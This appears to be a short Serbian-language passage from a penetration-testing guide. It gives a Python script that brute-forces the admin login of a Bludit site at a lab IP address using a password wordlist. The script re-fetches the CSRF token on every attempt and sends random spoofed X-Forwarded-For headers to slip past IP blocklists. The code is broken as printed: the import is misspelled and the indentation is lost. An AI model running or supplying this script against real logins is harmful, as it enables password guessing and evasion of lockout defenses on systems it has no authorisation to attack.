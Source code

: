 ```html
```

## CSRF Brute Force napad na prijavljivanje

Kod može biti korišćen za Brut Force napad na formu za prijavljivanje koristeći CSRF token (Takođe koristi zaglavlje X-Forwarded-For kako bi pokušao da zaobiđe moguće crne liste IP adresa):

```python
import request
import re
import random

URL = "http://10.10.10.191/admin/"
PROXY = { "http": "127.0.0.1:8080"}
SESSION_COOKIE_NAME = "BLUDIT-KEY"
USER = "fergus"
PASS_LIST="./words"

def init_session():
#Return CSRF + Session (cookie)
r = requests.get(URL)
csrf = re.search(r'input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="([a-zA-Z0-9]*)"', r.text)
csrf = csrf.group(1)
session_cookie = r.cookies.get(SESSION_COOKIE_NAME)
return csrf, session_cookie

def login(user, password):
print(f"{user}:{password}")
csrf, cookie = init_session()
cookies = {SESSION_COOKIE_NAME: cookie}
data = {
"tokenCSRF": csrf,
"username": user,
"password": password,
"save": ""
}
headers = {
"X-Forwarded-For": f"{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}.{random.randint(1,256)}"
}
r = requests.post(URL, data=data, cookies=cookies, headers=headers, proxies=PROXY)
if "Username or password incorrect" in r.text:
return False
else:
print(f"FOUND {user} : {password}")
return True

with open(PASS_LIST, "r") as f:
for line in f:
login(USER, line.strip())
```
